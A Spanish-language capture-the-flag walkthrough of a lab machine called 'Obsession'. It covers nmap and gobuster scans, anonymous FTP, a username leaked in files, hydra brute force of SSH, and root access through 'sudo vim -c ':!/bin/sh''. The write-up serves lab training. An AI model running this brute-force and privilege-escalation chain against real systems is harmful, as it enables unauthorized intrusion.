```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓22/07/2025'
---
```


# Obsession

Realizando un escaneo con `nmap` vemos lo siguiente:

```bash
nmap -sC -sV $IPTARGET
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Para empezar, nos interesa el servicio `FTP` y `HTTP`.

Si accedemos al navegador para ver qué página aloja, nos encontramos con una página de un nutricionista. Si nos vamos al final de la página, encontramos este formulario:

<figure><img src="../../.gitbook/assets/Pasted image 20250722023218.png" alt=""><figcaption></figcaption></figure>

Si mandamos una solicitud, nos redirecciona a la siguiente página

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722023326.png" alt=""><figcaption></figcaption></figure></div>

cuya URL es

```http
http://172.17.0.2/.formrellyrespexit.html?nombre=example&apellido=example2&telefono=123456&email=example&somatotipo=Hectomorfo&llamada+a+la+accion=CAMBIAR+MI+VIDA+A+MEJOR+AHORA&campaign=BLACKFRIDAY
```

De momento, esto lo dejaremos así. Vamos a ver qué hay en el `FTP` con usuario `anonymous`:

<figure><img src="../../.gitbook/assets/Pasted image 20250722023857.png" alt=""><figcaption></figcaption></figure>

Vemos, primero, una conversación entre pervertidos, y en otro fichero, una lista de cosas pendientes donde menciona que no tiene bien gestionados los permisos, pero eso nos servirá para después.

Ojeando el código `HTML` de la página web, encuentro con este comentario:

```html
<!-- -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente ---->
```

Realizando un escaneo de directorios de la web, me encuentro con lo siguiente:

```bash
gobuster dir -u http://$IPTARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5208]
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

En `/backup` tenemos un directory indexing que nos muestra un fichero, `backup.txt`:

```
Usuario para todos mis servicios: russoski (cambiar pronto!)
```

En `/important` hay otro directory indexing, con el fichero `important.md`:

```markdown
-------------------------------------------------------

MANIFIESTO HACKER
La Conciencia de un Hacker 

Uno más ha sido capturado hoy, está en todos los periódicos.

"Joven arrestado en Escándalo de Crimen por Computadora", "Hacker arrestado luego de traspasar las barreras de seguridad de un banco.." 

Malditos muchachos. Todos son iguales. Pero tú, en tu psicologí­a de tres partes y tu tecnocerebro de 1950, has alguna vez observado detrás de los ojos de un Hacker?

Alguna vez te has preguntado qué lo mueve, qué fuerzas lo han formado, cuáles lo pudieron haber moldeado?

Soy un Hacker, entra a mi mundo..

El mÃ­o es un mundo que comienza en la escuela.. Soy más inteligente que la mayorí­a de los otros muchachos, esa basura que ellos nos enseÃ±an me aburre..

Malditos sub realizados. Son todos iguales.

Estoy en la preparatoria. He escuchado a los profesores explicar por decimoquinta vez como reducir una fracción. Yo lo entiendo.

"No, Srta. Smith, no le voy a mostrar mi trabajo, lo hice en mi mente..
"Maldito muchacho. Probablemente se lo copió. Todos son iguales.

Hoy hice un descubrimiento. Encontré una computadora. Espera un momento, esto es lo máximo.
Esto hace lo que yo le pida. Si comete un error es porque yo me equivoqué.

No porque no le gustó.. o se siente amenazada por mí­.. o piensa que soy un engreído.. o no le gusta enseñar y no deberí­a estar aquí­.. Maldito muchacho. Todo lo que hace es jugar. Todos son iguales.

Y entonces ocurrió.. una puerta abierta al mundo.. corriendo a través de las lineas telefónicas como la heroí­na a través de las venas de un adicto, se envía un pulso electrónico, un refugio para las incompetencias del dí­a a dí­a es buscado.. una tabla de salvación es encontrada.

--------------------------------------------------------
```

Una vez tenemos el usuario `russoski`, intentamos acceder por fuerza bruta al `ssh`:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
```

Si revisamos los permisos con `sudo -l`, nos encontramos con que tenemos permiso para el binario `/usr/bin/vim`. En [gtfobins](https://gtfobins.github.io/gtfobins) vemos que se puede explotar este binario si tenemos permiso con `sudo`:

```bash
sudo vim -c ':!/bin/sh'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722031509.png" alt=""><figcaption></figcaption></figure></div>
